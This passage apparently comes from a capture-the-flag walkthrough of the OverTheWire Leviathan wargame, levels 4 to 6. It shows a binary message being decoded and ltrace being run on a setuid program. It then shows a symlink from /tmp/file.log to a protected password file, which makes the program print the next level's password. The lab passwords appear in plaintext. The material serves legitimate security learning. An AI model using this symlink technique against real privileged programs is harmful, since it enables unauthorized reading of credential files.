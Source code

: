 Seems like its a binary message. Let's use a binary to text [convertor](https://www.rapidtables.com/convert/number/binary-to-ascii.html) to get the message.

``Tith4cokei``


# Level 5

```bash
sshpass -p Tith4cokei ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

```bash
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ls -l leviathan5
-r-sr-x--- 1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                               = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                         = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

What happens if we create a file inside ``/tmp/file.log``?

```bash
leviathan5@leviathan:~$ ls /tmp/file.log
ls: cannot access '/tmp/file.log': No such file or directory
leviathan5@leviathan:~$ echo "hi" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
hi
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

Interesting.. It seems that the script will read the file and then deletes it. Can we then create a file in ``/tmp/file.log`` and then use the symbolic link to link the file to the password file?

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```


# Level 6

```bash
sshpass -p UgaoFee4li ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```
